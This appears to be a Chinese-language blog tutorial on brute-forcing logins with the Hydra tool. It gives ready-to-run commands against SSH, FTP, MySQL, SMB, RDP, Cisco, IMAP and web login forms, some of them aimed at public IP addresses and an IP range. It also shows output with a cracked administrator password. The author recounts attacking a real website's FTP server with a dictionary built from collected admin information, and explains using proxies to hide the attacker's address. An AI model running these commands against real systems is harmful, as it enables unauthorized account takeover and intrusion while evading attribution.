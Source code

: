 ```yaml
---
title: Hydra 破解登录密码
date: 2016-03-29T21:25:45+08:00
update: 2016-01-01
categories: [网络安全]
tags: [Hydra]
---
```

hydra -L user.txt -P pass.txt -o savessh.log -f -vV -e ns 10.0.5.24 ssh
hydra -L user.txt -P sup.txt -o savessh.log -f -vV -e ns 113.105.144.130 mysql
hydra -M list.txt -l root -P dict1000.txt -t 64 -o ssh.txt ssh

###Hydra 破解登录密码###

格式：

hydra [[[-l LOGIN|-L FILE] [-p PASS|-P FILE]] | [-C FILE]] [-e ns] [-o FILE] [-t TASKS] [-M FILE [-T TASKS]] [-w TIME] [-f] [-s PORT] [-S] [-vV]
server service [OPT] # 可选的

-R 继续从上一次进度接着破解
-S 采用SSL链接（大写的S）
-s PORT 如果非默认端口，可通过这个参数指定
-l LOGIN 小写，用于指定破解的用户，对特定用户破解
-L FILE 大写，用于指定用户的用户名字典
-p PASS 小写，用于指定密码破解，少用，一般是采用密码字典
-P FILE 大写，用于指定密码字典
-e ns 额外的选项，n：空密码试探，s：使用指定账户和密码试探
-C FILE 使用冒号分割格式 例如 “登录名:密码”来代替-L/-P参数
-M FILE 指定目标列表文件一行一条
-o FILE 指定结果输出文件
-f 在使用-M参数以后 找到第一对登录名或者密码的时候中止破解
-t TASKS 同时运行的线程数，默认为16
-w TIME 设置最大超时的时间，单位秒，默认是30s
-v / -V 显示详细过程
server 目标ip
service 指定服务名，支持如下:
telnet ftp pop3[-ntlm]
imap[-ntlm] smb smbnt http[s]-{head|get} http-{get|post}-form http-proxy cisco
cisco-enable vnc ldap2 ldap3 mssql mysql oracle-listener postgres nntp socks5
rexec rlogin pcnfs snmp rsh cvs svn icq sapr3 ssh2 smtp-auth[-ntlm] pcanywhere
teamspeak sip vmauthd firebird ncp afp

OPT 可选项

###如何使用代理服务器进行破解（这一点主要处于攻击者的ip，处于自身安全考虑）### HYDRA_PROXY_HTTP 变量参数可以用来定义代理服务器(只能使用http代理) 语法:

HYDRA_PROXY_HTTP=”http://ip:port/”
HYDRA_PROXY_CONNECT=ip:8000

如果你使用的代理需要用户名和密码，请使用HYDRA_PROXY_AUTH 变量参数:

HYDRA_PROXY_AUTH=”the_login:the_password”

###实例破解###

####1.ftp密码破解#### 结合自己实例，最近试探一个网站，得到了ftp用户，是serv-u6.02但是无法破解密码，我通过收集这些ftp用户将结果保存在 ftpuser.lst文件中，同时通过收集各个网站的信息，包括管理员的信息组合形成一个密码字典ftppwd.lst。于是，就开始尝试破解，命令如 下：

sudo hydra -L /home/dict/ftpuser.lst -P /home/dict/ftppwd.lst 218.86.103.* ftp

这个是基于多用户密码破解，另外还有一个本地ftp密码破解方案。为了效率我直接将密码写入到pwd.lst字典中

sudo hydra -l administrator -P /home/dict/pwd.lst -v 192.168.8.6 ftp

返回结果如下，成功破解了密码：

# 该行说明任务总数，会根据你提供用户名和密码进行计算，l:1/p:2表示一个用户名，密码字典中又2个密码
[DATA] 2 tasks, 1 servers, 2 login tries (l:1/p:2), ~1 tries per task
[DATA] attacking service ftp on port 21
[VERBOSE] Resolving addresses … done
[STATUS] attack finished for 192.168.8.6 (waiting for childs to finish)
# 破解成功，直接显示出来，当然你可以让他输出到文件，通过参数-o设定
[21][ftp] host: 192.168.8.6 login: administrator password: 123

通过这种方法有极大可能破解这个ftp，当然关键在于你的字典，我们可以通过字典生成器就可以很好的破解了.

####2.samba密码破解#### 利用nmap扫描到服务器开启了samba服务，于是尝试收集该服务器信息组合成密码字典。由于该应用类似ftp破解，这里不对具体演示，只是将ftp服务改成smb服务即可。

####3.网站后台密码破解#### 该软件的强大之处就在于支持多种协议的破解，同样他也支持对于web用户界面的登录破解，get方式提交的表单比较简单，这里通过post方式提交密码破解提供思路。该工具又一个不好的地方就是，如果目标网站登录时候需要验证码无法破解了。带参数破解如下：

<form action=”index.php” method=”POST”>
<input type=”text” name=”name” /><BR><br>
<input type=”password” name=”pwd” /><br><br>
<input type=”submit” name=”sub” value=”提交”>

假设有以上一个密码登录表单，我们执行命令：

sudo hydra -l admin -P pass.lst -o ok.lst -t 1 -f 127.0.0.1 http-post-form “index.php:name=^USER^&pwd=^PASS^:<title>invalido</title>”

# 破解的用户名是admin，密码字典是pass.lst，破解结果保存在ok.lst，-t是同时线程数为1，-f是当破解了一个密码就停止，ip是本 地，就是目标ip，http-post-form表示破解是采用http的post方式提交的表单密码破解后面参数是网页中对应的表单字段的name属 性,后面title中的内容是表示错误猜解的返回信息提示，可以自定义。

###总结### 该工具的强大只有你自行体验了，当然密码能否破解关键在于你的字典。以上一些实例操作仅仅是提供的支持的众多服务中的3种，其他的服务也同样非常强大，留给大家自行体会。其实密码字典的生成有相关的工 具，你可以自己生成符合一定规则的密码字典。当然如果你是一个成功的社工专家，往往能够得到事半功倍的效果。

####1、破解ssh：####

hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip ssh
hydra -l 用户名 -p 密码字典 -t 线程 -o save.log -vV ip ssh

####2、破解ftp：#### hydra ip ftp -l 用户名 -P 密码字典 -t 线程(默认16) -vV hydra ip ftp -l 用户名 -P 密码字典 -e ns -vV

####3、get方式提交，破解web登录：#### hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip http-get /admin/ hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns -f ip http-get /admin/index.php

####4、post方式提交，破解web登录：####

hydra -l 用户名 -P 密码字典 -s 80 ip http-post-form "/admin/login.php:username=^USER^&password=^PASS^&submit=login:sorry password"
hydra -t 3 -l admin -P pass.txt -o out.txt -f 10.36.16.18 http-post-form "login.php:id=^USER^&passwd=^PASS^:<title>wrong username or password</title>"

（参数说明：-t同时线程数3，-l用户名是admin，字典pass.txt，保存为out.txt，-f 当破解了一个密码就停止， 10.36.16.18目标ip，http-post-form表示破解是采用http的post方式提交的表单密码破解,<title>中的内容是表示错误猜解的返回信息提示。）

####5、破解https：####

hydra -m /index.php -l muts -P pass.txt 10.36.16.18 https

####6、破解teamspeak：####

hydra -l 用户名 -P 密码字典 -s 端口号 -vV ip teamspeak

####7、破解cisco：####

hydra -P pass.txt 10.36.16.18 cisco
hydra -m cloud -P pass.txt 10.36.16.18 cisco-enable

####8、破解smb：####

hydra -l administrator -P pass.txt 10.36.16.18 smb

####9、破解pop3：####

hydra -l muts -P pass.txt my.pop3.mail pop3

####10、破解rdp：####

hydra ip rdp -l administrator -P pass.txt -V

####11、破解http-proxy：####

hydra -l admin -P pass.txt http-proxy://10.36.16.18

####12、破解imap：####

hydra -L user.txt -p secret 10.36.16.18 imap PLAIN
hydra -C defaults.txt -6 imap://[fe80::2c:31ff:fe12:ac11]:143/PLAINshot
